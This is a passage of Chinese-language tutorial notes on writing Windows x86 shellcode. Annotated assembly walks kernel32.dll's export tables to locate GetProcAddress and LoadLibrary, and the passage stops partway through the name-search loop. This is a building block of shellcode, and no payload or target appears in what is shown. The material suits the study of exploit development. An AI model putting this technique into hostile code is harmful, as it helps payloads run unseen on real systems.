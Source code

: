 ##### 寻找kernel32.dll导出表的地址

```asm
; Find the address of the Export Table within kernel32.dll
 mov ebx, [eax+0x3C]     ; EBX = Offset NewEXEHeader  = 0xF8
 add ebx, eax            ; EBX = &NewEXEHeader        = 0xF8 + &kernel32.dll
 mov ebx, [ebx+0x78]     ; EBX = RVA ExportTable      = 0x777B0 = [&NewExeHeader + 0x78]
 add ebx, eax            ; EBX = &ExportTable         = RVA ExportTable + &kernel32.dll
```

##### 寻找kernel32.dll的name pointer table

```asm
; Find the address of the Name Pointer Table within kernel32.dll
; + Contains pointers to strings of function names - 4-byte/dword entries
 mov edi, [ebx+0x20]     ; EDI = RVA NamePointerTable = 0x790E0
 add edi, eax            ; EDI = &NamePointerTable    = 0x790E0 + &kernel32.dll
 mov [ebp-0x8], edi      ; save &NamePointerTable to stack frame
```

##### 寻找kernel32.dll的Ordinal Table 序数表

```asm
; Find the address of the Ordinal Table
;   - 2-byte/word entries
 mov ecx, [ebx+0x24]     ; ECX = RVA OrdinalTable     = 0x7A9E8
 add ecx, eax            ; ECX = &OrdinalTable        = 0x7A9E8 + &kernel32.dll
 mov [ebp-0xC], ecx      ; save &OrdinalTable to stack-frame
```

##### 找到Address Table的地址

```asm
; Find the address of the Address Table
 mov edx, [ebx+0x1C]     ; EDX = RVA AddressTable     = 0x777CC
 add edx, eax            ; EDX = &AddressTable        = 0x777CC + &kernel32.dll
 mov [ebp-0x10], edx     ; save &AddressTable to stack-frame
```

##### 找kernel32.dll导出表中functions的数量

```asm
; Find Number of Functions within the Export Table of kernel32.dll
 mov edx, [ebx+0x14]     ; EDX = Number of Functions  = 0x642
 mov [ebp-0x14], edx     ; save value of Number of Functions to stack-frame
```

##### 寻找LoadLibrary的入口点

> 为什么不能像计算器shellcode一样直接获取loadlibrary的地址？
> 首先通过寻找GetProcAddress的位置，通过调用这个函数获取LoadLibrary的地址

> jmp short 标号（转到标号处执行命令）

```asm
jmp short functions

findFunctionAddr:
; Initialize the Counter to prevent infinite loop
 xor eax, eax            ; EAX = Counter = 0
 mov edx, [ebp-0x14]     ; get value of Number of Functions from stack-frame
; Loop through the NamePointerTable and compare our Strings to the Name Strings of kernel32.dll
searchLoop:
 mov edi, [ebp-0x8]      ; EDI = &NamePointerTable
 mov esi, [ebp+0x18]     ; ESI = Address of String for the Symbol we are searching for
 xor ecx, ecx            ; ECX = 0x00000000
 cld                     ; clear direction flag - Process strings from left to right
 mov edi, [edi+eax*4]    ; EDI = RVA NameString      = [&NamePointerTable + (Counter * 4)]
 add edi, [ebp-0x4]      ; EDI = &NameString         = RVA NameString + &kernel32.dll
 add cx, 0xF             ; ECX = len("GetProcAddress,0x00") = 15 = 14 char + 1 Null
```